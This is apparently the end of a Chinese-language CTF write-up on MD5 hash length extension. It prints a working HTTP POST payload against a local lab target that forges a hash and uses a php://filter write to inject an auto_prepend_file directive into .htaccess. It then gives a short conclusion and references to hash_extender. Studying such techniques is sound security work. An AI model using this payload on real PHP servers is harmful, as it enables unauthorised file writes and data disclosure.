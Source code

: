 最终 payload:

```http
POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1:32768

hash=473640a1e1ec5efa6bdaf4c7c8f04482&content=gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGgAAAAAAAAAW1twaHA6Ly9maWx0ZXIvd3JpdGU9c3RyaW5nLnN0cmlwX3RhZ3MvPz5waHBfdmFsdWUgYXV0b19wcmVwZW5kX2ZpbGUgZmxhZ1xuIy9yZXNvdXJjZT0uaHRhY2Nlc3M
```

即可写入

Conclusion
==========

总的来说，这个攻击方法还是很好玩的，只不过发现市面上很多的文章写的不尽人意，看了一天都可能不明白其中的原理，写的过于抽象所以想着写写。  
只要我们注意到MD5中加密过程中的填充和多轮压缩，并且利用即可，当然也有很多工具可以生成一些playload，这个就不放出来了。  
最后感谢kengwang师傅，x1r0z师傅的指导

参考文章：  
1、 <https://xz.aliyun.com/t/10602>  
2、 [https://github.com/iagox86/hash\_extender](https://github.com/iagox86/hash_extender)
